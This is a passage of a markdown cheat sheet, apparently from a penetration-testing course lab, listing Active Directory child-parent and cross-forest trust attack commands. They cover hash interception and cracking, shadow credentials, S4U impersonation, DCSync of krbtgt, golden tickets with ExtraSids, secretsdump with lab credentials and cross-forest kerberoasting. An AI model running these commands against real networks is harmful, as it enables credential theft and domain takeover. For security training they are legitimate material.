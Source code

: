 | `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y -SMB Y` | Start Inveigh for hash interception.                         |
| `hashcat -m 5600 buster_ntlmv2 /usr/share/wordlists/rockyou.txt` | Crack NTLMv2 hash with Hashcat.                              |
| `Get-DomainForeignUser`                                      | Enumerate users that belong to groups within the parent domain. |
| `Get-DomainGroup -Identity 'Inlanefreight_admins' -domain inlanefreight.ad` | Gather additional info on the Inlanefreight_admins group.    |
| `./Rubeus createnetonly /program:powershell.exe /show`       | Create a sacrificial logon session with Rubeus.              |
| `Import-Module .\PowerView.ps1` <br/><br/>`$SecPassword = ConvertTo-SecureString 'T3st@123' -AsPlainText -Force` <br/><br/>`New-DomainUser -Domain inlanefreight.ad -SamAccountName testuser -AccountPassword $SecPassword` | Create a new domain user in parent domain.                   |
| `Add-ADGroupMember -identity "DNSAdmins" -Members testuser -Server inlanefreight.ad` | Add the created user into DNSAdmins Group.                   |
| `$sid = Convert-NameToSid rita` <br/><br/>`Get-DomainObjectAcl -ResolveGUIDs -Identity * -domain inlanefreight.ad &#124 ? {$_.SecurityIdentifier -eq $sid}` | Enumerate ACLs for Rita.                                     |
| `Add-DomainGroupMember -identity 'Infrastructure' -Members 'DEV\rita' -Domain inlanefreight.ad -Verbose` | Add Rita to Infrastructure group.                            |
| `Get-DomainGroupMember -Identity 'Infrastructure' -Domain inlanefreight.ad -Verbose` | Confirm group membership.                                    |
| `$Domain = "inlanefreight.ad"`<br>`$DomainSid = Get-DomainSid $Domain`<br>`Get-DomainObjectAcl -Domain $Domain -ResolveGUIDs -Identity * \| ? { `<br>&nbsp;&nbsp;&nbsp;&nbsp;`($_.ActiveDirectoryRights -match 'WriteProperty\|GenericAll\|GenericWrite\|WriteDacl\|WriteOwner') -and` \` <br>&nbsp;&nbsp;&nbsp;&nbsp;`($_.AceType -match 'AccessAllowed') -and` \` <br>&nbsp;&nbsp;&nbsp;&nbsp;`($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and` \`<br>&nbsp;&nbsp;&nbsp;&nbsp;`($_.SecurityIdentifier -notmatch $DomainSid)`<br> `}` | Enumerate Foreign ACLs for all users.                        |
| `ConvertFrom-SID S-1-5-21-2901893446-2198612369-2488268719-2103` | Convert SID to username with PowerView.                      |
| `.\Whisker.exe add /target:DC01$ /domain:inlanefreight.ad`   | Add credentials on the msDS-KeyCredentialLink attribute.     |
| `.\Rubeus.exe s4u /dc:DC01.inlanefreight.ad /ticket:dot0YBOM<SNIP>== /impersonateuser:administrator@inlanefreight.ad /ptt /self /service:host/DC01.inlanefreight.ad /altservice:cifs/DC01.inlanefreight.ad` | Perform S4U2self request to impersonate the Administrator account. |
| `.\mimikatz.exe "lsadump::dcsync /user:DEV\krbtgt" exit`     | Obtain KRBTGT hash for the child domain.                     |
| `Get-DomainSID`                                              | Obtain SID of domain.                                        |
| `Get-ADGroup -Identity "Enterprise Admins" -Server "inlanefreight.ad"` | Obtain Enterprise Admins SID from parent domain.             |
| `.\Rubeus.exe golden /rc4:992093609707726257e0959ce3e23771 /domain:dev.inlanefreight.ad /sid:S-1-5-21-2901893446-2198612369-2488268719 /sids:S-1-5-21-2879935145-656083549-3766571964-519 /user:Administrator /ptt` | Create Golden Ticket using Rubeus.                           |
| `mimikatz # kerberos::golden /user:htb-student /domain:dev.inlanefreight.ad  /sid:S-1-5-21-2901893446-2198612369-2488268719 /krbtgt:992093609707726257e0959ce3e23771 /sids:S-1-5-21-2879935145-656083549-3766571964-519 /ptt` | Create Golden Ticket using Mimikatz.                         |
| `klist`                                                      | Verify ticket in memory.                                     |
| `secretsdump.py dev.inlanefreight.ad/Administrator:'HTB_@cademy_adm!'@10.129.229.159 -just-dc-user DEV/krbtgt` | Obtain KRBTGT hash for the child domain using Secretsdump.py. |
| `lookupsid.py dev.inlanefreight.ad/Administrator:'HTB_@cademy_adm!'@10.129.229.159  &#124; grep "Domain SID"` | Obtain SID of domain using lookupsid.py.                     |
| `ticketer.py -nthash 992093609707726257e0959ce3e23771 -domain dev.inlanefreight.ad -domain-sid S-1-5-21-2901893446-2198612369-2488268719 -extra-sid S-1-5-21-2879935145-656083549-3766571964-519 htb-student`. | Create Golden Ticket using ticketer.py.                      |
| `raiseChild.py -target-exe 172.16.210.99 dev.inlanefreight.ad/htb-student`F | Automating the ExtraSids attack using raisechild.py.         |


# Cross Forest Attacks

| Command                                                      | Description                                     |
| ------------------------------------------------------------ | ----------------------------------------------- |
| `.\Rubeus.exe kerberoast /domain:logistics.ad`               | Kerberoast across forest trust.                 |
| `Get-ADUser -Filter "SIDHistory -Like '*'" -Properties SIDHistory` | Enumerate users with SIDHistory enabled.        |
| `./Rubeus createnetonly /program:powershell.exe /show`       | Create a sacrificial login session with Rubeus. |
| `Get-DomainTrust -domain logistics.ad  \| Where-Object {$_.TargetName -eq "inlanefreight.ad"}  \| Select TrustAttributes` | Retrieve only TrustAttributes for domain.       |
| `.\mimikatz.exe "lsadump::dcsync /user:INLANEFREIGHT\krbtgt" exit` | Obtain KRBTGT hash for the current domain.      |
| `python3 ftinfo.py`                                          | Parse data from `msDS-TrustForestTrustInfo`.    |
| `proxychains python getlocalsid.py inlanefreight.ad/Administrator@SQL02.logistics.ad SQL02` | Get LocalSid for SQL server.                    |
| `Get-ADObject -LDAPFilter '(objectClass=trustedDomain)' \| select name,objectguid` | Get GUID for target domain.                     |